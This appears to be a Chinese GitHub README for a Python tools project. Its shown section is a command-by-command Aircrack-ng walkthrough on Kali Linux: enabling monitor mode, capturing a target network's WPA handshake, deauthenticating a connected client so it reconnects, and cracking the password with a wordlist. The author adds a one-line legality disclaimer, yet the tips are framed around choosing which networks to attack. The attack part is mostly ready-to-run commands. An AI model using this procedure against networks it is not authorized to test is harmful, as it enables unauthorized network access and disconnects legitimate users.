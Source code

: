 # tool

用Python实现的各种五花八门的工具;

## 一. Aircrack-ng工具链

Aircrack-ng可以用来抓取wifi数据包, 并且通过抓到连接wifi时的认证包来破解wifi密码; **请注意： 破解他人的wifi密码是违法行为**; 我这里只是用自己的wifi研究技术问题, Aircrack-ng工具使用方法; 

### 1.1 环境依赖

* 操作系统: kali
* python 3.11.6
* 工具: Aircrack-ng
* 有一个支持监听的网卡

具体使用步骤如下

### 1.2 开启监听

```shell
airmon-ng start wlan0
airmon-ng check kill
airodump-ng  wlan0mon
```

查看官方文档, 可以知道PWR表示信号强度, 如果绝对值是80/90左右, 已经是最低下限了,此时就不要破解密码了,因为信号太差, 可能连握手包都抓不到; 尽量找绝对值小的目标wifi下手;

### 1.3 监听指定wifi

```shell
airodump-ng --ignore-negative-one -w 42 -c 11 --bssid 88:88:88:88:88:88 wlan0mon
airodump-ng --ignore-negative-one -w 42 -c 13 --bssid 88:88:88:88:88:88 wlan0mon
```

必须抓到用户建立 wifi新连接时的握手包, **有点难处理的是怎么知道已经抓到握手包？ subprocess运行的子进程airmon-ng又不好监视，估计还是需要人工监视，抓到之后，人工按下ctrl+c发送信号，主进程再发送信信号给airmon-ng进程**

### 1.4 攻击使目标掉线

攻击指定目标, 使其连接断开, 该目标重连时, 就会发送握手包, 一旦捕获到握手包, 此时就可以关闭监听;

aireplay-ng -0 0 -a 88:88:88:88:88:88 -c 88:88:88:88:88:88 wlan0mon

### 1.5 破解密码

使用指定密码字典开始破解

aircrack-ng -a2 -b 88:88:88:88:88:88 -w ../password_dict/*.txt ./5E03-02.cap

